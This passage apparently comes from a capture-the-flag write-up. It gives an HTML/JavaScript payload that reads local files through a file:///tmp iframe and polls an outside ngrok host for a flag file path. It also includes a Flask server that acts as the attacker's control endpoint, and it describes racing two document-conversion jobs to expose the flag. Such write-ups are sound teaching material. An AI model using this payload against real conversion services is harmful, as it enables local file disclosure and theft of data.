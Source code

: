 To solve this problem, we can use `fetch` to dynamically get the correct path:

```html
<p id="path"></p>
<p id="fsWorkingDir"></p>
<iframe id="frame" width="100%" height="300px"></iframe>

<script>
const currentPath = window.location.pathname;
path.innerText = `Current path: ${currentPath}`;
const workingDirectory = currentPath.split('/')[2];
fsWorkingDir.innerText = `fs.workingDir = ${workingDirectory}`;

frame.src = `file:///tmp/${workingDirectory}/`;
var flagFilePath;
setInterval(() => {
  frame.src += '';

  fetch(`http://0.tcp.ap.ngrok.io:13785/flag?path=${flagFilePath}`)
    .then(response => {
      return response.text();
    })
    .then(responseText => {
      flagFilePath = responseText;
      if (flagFilePath !== '') {
        frame.src = `file:///tmp/${workingDirectory}/${flagFilePath}/index.html`;
      }
    });
}, 1000);
</script>
```

Our Python Flask web application:

```python
#!/usr/bin/env python3
from flask import Flask
from flask_cors import CORS
from os import getenv

app = Flask(__name__)
cors = CORS(app)

@app.route('/flag')
def flag():
    flagFilePath = '' # modify this with the correct flag path when you leaked it
    return flagFilePath

if __name__ == '__main__':
    app.run('0.0.0.0', debug=True)
```

Now, we can send the both conversion processes at the same time. That way, the flag process will be executed after finishing the second conversion.
